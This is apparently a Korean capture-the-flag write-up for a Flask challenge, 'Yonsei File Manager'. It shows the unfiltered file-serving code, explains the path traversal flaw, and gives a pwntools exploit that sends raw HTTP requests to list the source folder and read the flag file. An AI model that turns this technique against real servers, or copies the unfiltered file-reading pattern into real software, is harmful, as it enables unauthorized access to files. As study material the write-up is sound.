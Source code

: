 # Yonsei File Manager

## Vulnerability
### Path traversal
+ 페이지를 둘러보다 보면 url path == directory path 임을 알 수 있다.
+ Description 에서 flask 앱 임을 명시하고 있으므로 소스코드의 파일 명이 `app.py`일 것이라고 게싱할 수 있다.
> `/app.py` 로 요청을 보내면 소스코드를 확인할 수 있다.
app.py
```python
    try:
        lists = list_files(CUR_PATH.joinpath(directory))
    except NotADirectoryError:
        with open(CUR_PATH.joinpath(directory)) as f:
            contents = f.read()
        return Response(contents)
```
+ 디렉토리이면 파일을 리스팅해주고 파일이면 읽어서 리스폰스로 준다
+ path에 대한 별다른 필터링이 없다.
> `/.`으로 요청을 보내면 소스 폴더의 목록을 확인할 수 있다.
+ 일반적인 브라우저에서는 요청 경로에 `.`이 있을 경우 필터링 된다.
> raw http 요청을 보낸다.

## Exploit Code
```python
from pwn import *

host = '127.0.0.1'
port = 8080

r = remote(host, port)

def ready(s, **f):
    return s.format(**f).replace('\n','\r\n').encode('utf-8')

def receive(r):
    res = ''
    while True:
        try:
            res += r.recv().decode('utf-8')
        except EOFError:
            break
    return res


if __name__=="__main__":
    r.send(ready("""GET /. HTTP/1.1
    Host: {host}
    User-Agent: hacker

    """, host=host))

    res = receive(r)

    flag_name = res.split('<div class="file">')[4].split('./')[1].split('">')[0]
    print(flag_name)

    r = remote(host, port)
    r.send(ready("""GET /{path} HTTP/1.1
    Host: {host}
    User-Agent: hacker

    """, path=flag_name, host=host))

    flag = receive(r).split('\r\n\r\n')[1]
    print(flag)
```